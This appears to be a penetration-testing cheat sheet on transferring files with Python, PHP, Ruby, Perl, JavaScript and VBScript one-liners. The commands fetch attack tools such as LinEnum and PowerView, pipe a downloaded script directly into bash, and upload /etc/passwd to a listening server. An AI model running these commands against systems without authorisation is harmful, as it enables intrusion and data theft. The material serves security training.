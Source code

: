 
## Python 

### Python 2 - Download 

```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Upload

```shell-session
python3 -m uploadserver 
```

```shell-session
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
## PHP

### PHP Download with File_get_contents()

```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### PHP Download with Fopen()

```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download a File and Pipe it to Bash

```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


>[!NOTE]
> The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

## Ruby

```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```


## Perl

```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```


## JavaScript

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd-session
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


## VBScript

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```



























